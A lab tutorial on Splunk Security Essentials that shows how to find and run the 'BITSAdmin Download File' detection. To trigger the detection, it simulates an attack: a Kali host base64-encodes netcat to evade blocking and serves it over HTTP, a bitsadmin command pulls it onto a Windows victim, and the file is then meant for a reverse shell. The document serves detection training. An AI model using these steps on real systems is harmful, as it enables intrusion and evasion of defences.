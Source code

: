 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

3. Open Splunk Security Essentials
Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)


![](attachments/2.5-SSE_open2.png)  



4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  


 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  


5. Lets go to the Kali, login via ssh, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > nc64
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/nc64 c:\temp\myshell64
```


7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali.
